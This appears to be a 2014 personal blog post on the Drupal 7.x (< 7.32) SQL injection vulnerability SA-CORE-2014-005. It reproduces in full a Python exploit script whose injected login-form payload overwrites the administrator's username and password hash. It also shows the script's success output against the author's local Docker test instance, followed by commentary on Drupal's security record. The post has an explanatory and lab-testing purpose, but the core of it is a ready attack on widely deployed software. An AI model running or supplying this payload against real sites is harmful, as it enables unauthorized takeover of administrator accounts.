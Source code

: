 ```yaml
---
layout:     post
title:      Compromising Drupal 7.31
date:       2014-11-1 14:00:00
categories:
  - drupal
  - exploits
  - docker

---
```


Recently Drupal (versions 7.x < 7.32) was discovered to have...well a [devastating anonymous remote vulnerability](https://www.drupal.org/SA-CORE-2014-005). There are a lot of fascinating things about this vulnerability, including the fact that it's a one line mistake in a section of the code that is supposed to stop SQL injection attacks, as well as that the Drupal community actually put out a [PSA](https://www.drupal.org/PSA-2014-003) (as in "public service announcement") suggesting that if you have a Drupal site that wasn't upgraded within seven hours of the release of the update that you should consider your site compromised and act accordingly. Wow.

<!-- more -->

### Exploit in the wild!

Pretty quickly "exploits were in the wild," as they say. The wilds of the Internet...which is pretty much all of it.

Here's a Python script that will exploit a Drupal 7.31 site. The original script can be found on [pastebin](http://pastebin.com/nDwLFV3v). There's also a [good blog post](http://www.volexity.com/blog/?p=83) from Volexity which discusses the exploit in more detail.

```bash
#Drupal 7.x SQL Injection SA-CORE-2014-005 https://www.drupal.org/SA-CORE-2014-005
#Creditz to https://www.reddit.com/user/fyukyuk
import urllib2,sys
from drupalpass import DrupalHash # https://github.com/cvangysel/gitexd-drupalorg/blob/master/drupalorg/drupalpass.py
host = sys.argv[1]
user = sys.argv[2]
password = sys.argv[3]
if len(sys.argv) != 3:
    print "host username password"
    print "http://nope.io admin wowsecure"
hash = DrupalHash("$S$CTo9G7Lx28rzCfpn4WB2hUlknDKv6QTqHaf82WLbhPT2K5TzKzML", password).get_hash()
target = '%s/?q=node&destination=node' % host
post_data = "name[0%20;update+users+set+name%3d\'" \
            +user \
            +"'+,+pass+%3d+'" \
            +hash[:55] \
            +"'+where+uid+%3d+\'1\';;#%20%20]=bob&name[0]=larry&pass=lol&form_build_id=&form_id=user_login_block&op=Log+in"
content = urllib2.urlopen(url=target, data=post_data).read()
if "mb_strlen() expects parameter 1" in content:
        print "Success!\nLogin now with user:%s and pass:%s" % (user, password)
```

There are a couple steps you need to perform to get that script to work, which I won't detail here. Suffice it to say this is one of the easiest exploits I've ever seen, and it'll get you admin on, as far as I know, any Drupal 7.x < 7.32 instance. Oof.

### Exploit a Docker based Drupal instance

In my [last post](/posts/install-docker-ubuntu-14-10/) I talked about using Docker to quickly create a Drupal instance. I'm using one of those instances here to test out the exploit script. In this case Drupal is running on my local computer at 172.17.0.28 via Docker. (_Note this isn't a Docker security issue, it's just that I'm using Docker to quickly create and destroy Drupal instances to test against. Just want to be clear about that._)

I changed the Dockerfile to install ```drupal-7.31``` instead of the default install, which would be the latest version (which as of today is 7.32 and that has the security patch).

When I run it, after making a few changes, I get the below output.

```bash
curtis$ ./drupal-hack.py 172.17.0.28 admin superc00l
starting...
sending payload to 172.17.0.28
Success!
Login now with user:admin and pass:superc00l
```

By default the Drupal docker image sets the login to ```admin``` and the password also to ```admin```. But after running the exploit script as shown above, the password is set to ```superc00l```.

### Conclusion

Drupal has been audited many, many times by different security organizations. In fact that was how this vulnerability was found--by a professional audit. It's one of the most popular content management systems in use, perhaps just behind Wordpress. It has a lot of "eyes" on it in terms of ensuring it's a secure system. And yet, here we are, ~32 releases into Drupal 7 and there are still holes being found.

My point is that Drupal is not insecure, in fact it's probably one of the more secure content management systems available (if only because it's had so many security reviews and is so popular; been "battle tested" so to speak) and yet there are still holes found, holes that can cause up to [12 million sites](http://www.bbc.com/news/technology-29846539) to potentially be hacked, because bugs. I think it's easier to write insecure code in PHP than some other languages, but I don't think Drupal's security isses are a PHP issue per se, though some think otherwise.

This suggests that most Drupal sites will need some additional security layers to try to reduce the damage that can occur in case of compromise, as well as processes and procedures to recover from a compromise. Of course, that is easier said than done.

PS. Don't get me started on modules... :)
